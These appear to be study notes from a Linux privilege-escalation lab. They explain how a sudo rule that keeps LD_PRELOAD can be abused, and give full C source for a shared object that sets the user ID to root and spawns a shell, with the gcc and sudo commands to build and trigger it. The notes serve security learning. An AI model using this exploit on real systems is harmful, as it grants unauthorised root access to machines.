






LD_PRELOAD
How it works LD_PRELOAD privilege escalation
• LD_ PRELOAD is an environment variable which can be set to the path of a shared object (.so) file. This shared object will be loaded before any others.
◇ Point 4
• By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded
◇ Point 2 and 3
• sudo must be configured to preserve the LD_PRELOAD environment variable using the env_keep option
◇ We can check it at point 1
• LD_PRELOAD will not work if the real user ID is different from the effective user ID.
◇ Point 0
ACTION:
0. Check if the current process real user ID is different from the effective user ID.
◇ To check current process: real ID, effective ID, saved ID, file system ID (how we have seen in Permissions in Linux):
target@debian:~$ cat /proc/$$/status | grep "[UG]id"

1. Check if env_keep option includes the LD_PRELOAD environment variable
target@debian:~$ sudo -l

2. Create a file (preload.c) with the following contents:
target@debian:~$ vim preload.c
#i --> insert text
#Esc --> to finish to insert the text
#:wq --> write and quit
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}
It should spawn a shell when loaded
3. Compile preload.c to preload.so
target@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c

if it give an error should anyway created it
4 . Run any allowed program using sudo , while setting the LD_PRELOAD environment variable to the full path of the preload.so file:
target@debian:~$ sudo -l

target@debian:~$ sudo LD_PRELOAD=/tmp/preload.so <program_specified_in_sudo-l>
example

example

example
